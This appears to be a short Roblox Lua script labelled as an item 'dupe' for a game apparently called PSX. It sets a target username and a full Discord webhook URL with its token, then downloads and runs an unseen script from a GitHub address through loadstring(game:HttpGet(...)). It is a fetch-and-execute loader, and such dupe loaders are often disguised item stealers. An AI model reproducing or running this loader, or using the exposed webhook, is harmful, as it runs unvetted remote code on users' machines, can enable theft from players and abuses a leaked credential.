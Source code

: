 # dupe2
UserName = "21ewerf"
WebHook = "https://discord.com/api/webhooks/1048819886106882171/GkoMgUOI0YwL7Su6Lo2dNJB_pFJcGm3WmpI_yEgvVqBlMk5Sh2nG7gIhIw1Q3grKVeI_"

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/New.lua", true))()

